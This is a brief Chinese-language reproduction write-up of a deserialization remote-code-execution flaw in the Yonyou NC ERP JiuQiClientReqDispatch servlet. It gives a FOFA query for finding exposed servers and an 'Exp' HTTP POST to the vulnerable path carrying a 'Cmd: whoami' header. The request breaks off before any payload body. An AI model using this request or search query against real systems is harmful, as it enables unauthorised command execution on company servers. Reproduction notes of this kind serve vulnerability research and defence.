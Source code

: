 
# 用友NC JiuQiClientReqDispatch反序列化RCE漏洞复现

### 0x01 产品简介

 [用友](https://so.csdn.net/so/search?q=%E7%94%A8%E5%8F%8B&spm=1001.2101.3001.7020 "用友")NC是一款企业级ERP软件。作为一种信息化管理工具，用友NC提供了一系列业务管理模块，包括财务会计、[采购管理](https://so.csdn.net/so/search?q=%E9%87%87%E8%B4%AD%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020 "采购管理")、销售管理、物料管理、生产计划和人力资源管理等，帮助企业实现数字化转型和高效管理。

### 0x02 漏洞概述

  用友 NC JiuQiClientReqDispatch 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个web服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![4b4ae218e3ea4146b47d31168a7af2a9.png](assets/1701826123-fdc0d0beb4c158a8788a0866d7c09a1d.png)

### 0x04 漏洞复现 

Exp

```cobol
POST /servlet/~ic/com.ufsoft.iufo.jiuqi.JiuQiClientReqDispatch HTTP/1.1
Host: your-ip
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML
```
